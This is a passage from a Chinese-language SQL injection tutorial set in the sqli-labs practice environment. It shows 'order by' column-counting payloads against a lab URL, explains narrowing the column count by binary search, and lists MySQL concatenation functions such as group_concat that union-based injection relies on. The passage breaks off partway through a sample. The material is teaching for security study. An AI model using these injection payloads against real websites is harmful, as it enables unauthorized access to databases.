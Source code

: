 2. 使用 order by 指数（order by数字以2的n次方指数增加） 和 二分法爆破，payload 如下

```http
http://192.168.154.135/sqli-labs-php7/Less-1/?id=1' order by 1--+
http://192.168.154.135/sqli-labs-php7/Less-1/?id=1' order by 2--+
http://192.168.154.135/sqli-labs-php7/Less-1/?id=1' order by 4--+
http://192.168.154.135/sqli-labs-php7/Less-1/?id=1' order by 8--+
```
前两个 payload 都是能够正确回显
![Alt text](images/sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E5%8E%9F%E7%90%86/image-1.png)
直到第三个 payload，说明查询结果没有 4 列那么多，这时候就可以知道列数有三列。如果第三个payload是正常的，第四个payload是异常的，那么取中间值，也就是6((4+8)/2 = 6)继续爆破。
![Alt text](images/sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E5%8E%9F%E7%90%86/image-2.png)




### 联合注入常用函数

联合注入常使用如下字符串拼接函数

内置函数|描述|举例
-|-|-
concat(str1, str2, ...)|拼接字符串|concat("1", "2", "3") --> "123"
concat_ws(separator, str1, str2, ..)|拼接字符串，各个字符之间插入separator|concat("/", "1", "2", "3") --> "1/2/3"
group_concat(column_name)|将查询结果用,拼接成一个字符串|select group_concat(username) from users; --> "user1,user2,user3 .." 

样例
```mysql

mysql> select concat("123", 456);
+--------------------+
| concat("123", 456) |
+--------------------+
| 123456             |
+--------------------+
1 row in set (0.00 sec)

mysql> select concat("123", "456");
+----------------------+
| concat("123", "456") |
+----------------------+
```